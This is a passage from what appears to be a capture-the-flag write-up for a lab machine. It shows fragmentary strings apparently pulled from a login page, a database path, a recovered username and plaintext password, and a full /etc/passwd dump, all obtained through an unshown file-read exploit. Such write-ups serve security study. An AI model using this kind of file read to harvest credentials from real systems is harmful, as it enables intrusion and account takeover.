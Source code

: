 ```bash
menu-trigger
message
) && urlParams.has(
status
message
status
) == 
fail
user
user
REQUEST_METHOD
] === 
POST
 && $_POST[
username
] && $_POST[
password
username
password
sqlite:/var/db/pilgrimage
user
menu-trigger
message
) && urlParams.has(
status
message
status
) == 
fail

```
here we find and sqlite database: `sqlite:/var/db/pilgrimage`. using our exploit to read `/var/db/pilgrimage` and converting the hex dump into ascii, we find the user:password pair
`emily:abigchonkyboi123`

using our exploit to read `/etc/passwd`, we also find the user emily
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```